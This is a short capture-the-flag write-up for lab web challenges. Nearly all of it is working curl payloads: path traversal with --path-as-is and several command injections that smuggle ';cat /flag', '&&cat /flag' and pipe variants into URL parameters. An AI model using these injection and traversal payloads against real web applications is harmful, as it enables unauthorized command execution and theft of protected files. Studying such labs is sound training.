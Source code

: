 # Path Traversal 1
`curl http://challenge.localhost/payload/../../flag`, this url will be squashed to be `http://challenge.localhost/flag`.

The writeup is 
```sh
curl --path-as-is http://challenge.localhost/payload/../../flag
```

# Path Traversal 2
There is a `fortunes` folder in the /challenge/files.

And here are useless contents:
```plaintext
You can observe a lot just by watching.
                -- Yogi Berra
Haste makes waste.
                -- John Heywood
TV is chewing gum for the eyes.
                -- Frank Lloyd Wright
```
The writeup is `curl --path-as-is http://challenge.localhost:80/deliverables/fortunes/../../../flag`

# CMDi 1
The function `flask.request.args.get()` function is to get the URL parameters.
```sh
curl http://challenge.localhost:80/mission?topdir=.%3bcat%20/flag
```

# CMDi 2
Do you know what's the meaning of `&&` operator in bash?
```sh
curl http://challenge.localhost:80/quest?topdir=.%26%26cat%20/flag
```
It's strange that in the command `COMMAND1 | cat ARGS` if the `ARGS` is not empty then the COMMAND1 cannot output anything. So another writeup is `curl http://challenge.localhost:80/quest?topdir=.%7ccat%20/flag`.

# CMDi 3
`curl http://challenge.localhost:80/stage?folder=.%27%26%26cat%20%27/flag`

# CMDi 4
`curl http://challenge.localhost:80/event?time-zon=MST%3bcat%20/flag%3b`

# CMDi 5
`curl http://challenge.localhost:80/test?path=flag_%3bcat%20/flag%3eflag_ && cat flag_`
